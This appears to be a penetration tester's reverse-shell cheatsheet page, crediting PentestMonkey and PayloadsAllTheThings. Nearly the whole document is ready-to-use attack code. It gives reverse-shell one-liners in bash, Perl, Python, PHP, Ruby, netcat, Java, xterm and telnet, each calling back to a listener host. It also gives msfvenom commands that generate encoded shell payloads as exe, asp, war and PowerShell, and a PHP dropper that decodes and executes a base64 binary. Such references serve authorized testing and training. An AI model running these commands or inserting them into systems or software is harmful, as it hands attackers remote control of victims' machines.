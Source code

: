 ```yaml
---
layout: commands
title: Reverse Shells
date: 2020-08-13
preview: Cheatsheet for reverse shells
categories: 
    - "commands"
    - "pentest"
---
```


# Reverse Shells

Credits to PentestMonkey - [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Another great resource - [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

### Python 2

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python 3

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

### Linux

```bash
php -r '$sock=fsockopen("10.0.0.1",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Windows

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 EXITFUNC=thread -f exe | base64 -w 0
```

Create shell.php (Or whatever you want to call it!)

```bash
<?php
header('Content-type: text/plain');
$payload = "OUTPUT FROM ABOVE COMMAND";
$evalCode = base64_decode($payload);
$filename = "s.exe";
$file = fopen($filename, 'wb');
fwrite($file, $evalCode);
fclose($file);
$path = $filename;
$cmd = $path.$evalArguments;
$res .= "\n\nExecuting : ".$cmd."\n";
echo $res;
$output = system($cmd);
?>
```

## Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",9001).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

### Linux

```bash
nc -e /bin/sh 10.0.0.1 9001
```

Net cat reliable

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 9001 >/tmp/f
```

### Windows

cmd.exe

```bash
nc -e cmd.exe 10.0.0.1 9001
```

powershell.exe

```bash
nc -e powershell.exe 10.0.0.1 9001
```

## Java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/9001;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


## Xterm

```bash
xterm -display 10.0.0.1:1
```

## Telnet

### Linux

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```

### Windows

```bash
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

\# Remember to listen on your machine also on port 4445/tcp


# Metasploit payloads

## Windows to netcat

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -e x86/shikata_ga_nai -b <BADCHARS>
```

## Javascript

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -f js_le -e generic/none
```

## Windows EXE

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 EXITFUNC=thread -f exe > shell.exe
```

## Unix Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=10.0.0.1 LPORT=9001 -f raw > shell.pl
```

## Unix

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.0.0.1 LPORT=9001 -f raw > web/shell.sh
```

## Linux Bind

```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=9001 -f c -b "<BADCHARS>" --platform linux -a x86 -e x86/shikata_ga_nai
```

## Windows Powershell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -f psh
```

## C Alpha Numeric

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$TARGETIP LPORT=<PORT> -f c -e x86/alpha_mixed -b "<BADCHARS>"
```

## ASP

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -f asp > sc.asp
```

# WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -f war > shell.war
```


